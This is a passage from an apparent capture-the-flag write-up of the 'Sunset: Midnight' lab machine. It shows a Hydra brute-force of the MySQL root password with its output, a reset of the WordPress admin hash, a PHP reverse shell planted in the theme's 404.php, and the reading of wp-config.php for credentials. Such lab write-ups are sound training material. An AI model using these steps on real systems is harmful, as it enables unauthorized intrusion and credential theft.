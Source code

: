 ```
┌──(hhhharshil㉿kali)-[~/Desktop/sunsetmidnight]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.134.88 mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-31 16:35:35
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.134.88:3306/
[3306][mysql] host: 192.168.134.88   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-31 16:35:39
```

Credentials of root:robert were found.

After logging in we listed the databases and used the wordpress_db. It appears we have the ability to set the hash for the admin user so we generated a md5hash for any string that we want to be the password. After updating the password we can now login with credentials admin:harshil

<img src="/assets/resources/sunsetmidnight/sunset_wp_pass.png" />

Now that we have access to the wordpress admin page we will insert a php reverse shell in one of the pages by going to theme editor.

I will overwrite the contents of the 404.php entry with the pentest monkey reverse shell.

<img src="/assets/resources/sunsetmidnight/sunset_404.png" />

Then a listener will be setup on port 4444. 

The reverse shell in this case 404.php will be executed by browsing to the following page: http://sunset-midnight/wp-content/themes/twentytwenty/404.php

## Priv Esc: status SUID binary
---
In the wp-config file we can see that user jose and a password is listed. 

```
www-data@midnight:/var/www/html/wordpress$ cat wp-config.php                                                                                                                                                                                
<?php                                                                                                                                                                                                                                       
/**
 * The base configuration for WordPress
 * 
 * The wp-config.php creation script uses this file during the                                 
 * installation. You don't have to use the web site, you can                                   
 * copy this file to "wp-config.php" and fill in the values.                                   
 *                                                                                                                    
 * This file contains the following configurations:                                                                   
```